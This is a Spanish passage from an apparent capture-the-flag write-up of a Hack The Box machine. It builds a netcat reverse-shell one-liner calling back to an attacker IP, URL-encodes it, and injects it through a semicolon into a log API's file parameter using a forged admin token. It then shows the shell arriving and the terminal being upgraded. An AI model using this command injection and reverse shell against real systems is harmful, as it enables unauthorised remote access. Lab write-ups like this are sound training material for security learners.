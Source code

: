 Por lo tanto vamos a ganar acceso generando una shell reversa que le pasaremos al endpoint mencionado. Nuestro payload es el siguiente:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.104 9999 >/tmp/f
```

Primero vamos a "encodearlo" para evitar posibles problemas utilizando la web **https://www.urlencoder.io/**
> **NOTA:** Se puede también como base64, no hay problema, yo lo he hecho así porque quería hacerlo de otro modo distinto a lo habitual.

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.104%209999%20%3E%2Ftmp%2Ff
```

Nos ponemos en escucha con **`netcat`** por el puerto 9999 (o el que quieras):

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
```

Lanzamos la petición con curl al endpoint vulnerable:
> **NOTA:** Es importante que antes de nuestro payload metamos un punto y coma, esto separa el comando de lo que haya delante.

```console
p3ntest1ng:~$ curl -s -X GET "http://secret.htb/api/logs?file=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.104%209999%20%3E%2Ftmp%2Ff" \
                -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmYTQ5NTQyZTU5NjA0NWJjZTAzNWEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAcGVudGVzdGluZy5uZXQiLCJpYXQiOjE2NDgzMzg0MjV9.F4KOyd5y9h6hTc32fCP2eUHq89jQb2ZoW3hJDGJsScA" &; disown
```

Y finalmente obtenemos la esperada shell, pero antes de continuar vamos a realizar un tratamiento a la tty para mayor comodidad:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.104] from (UNKNOWN) [10.10.11.120] 45134
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
dasith@secret:~/local-web$ ^Z
zsh: suspended  nc -nlvp 9999
p3ntest1ng:~$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
dasith@secret:~/local-web$ export TERM=xterm
dasith@secret:~/local-web$ export SHELL=bash
dasith@secret:~/local-web$ stty rows 43 columns 189
```

Y por último leemos la flag de usuario:
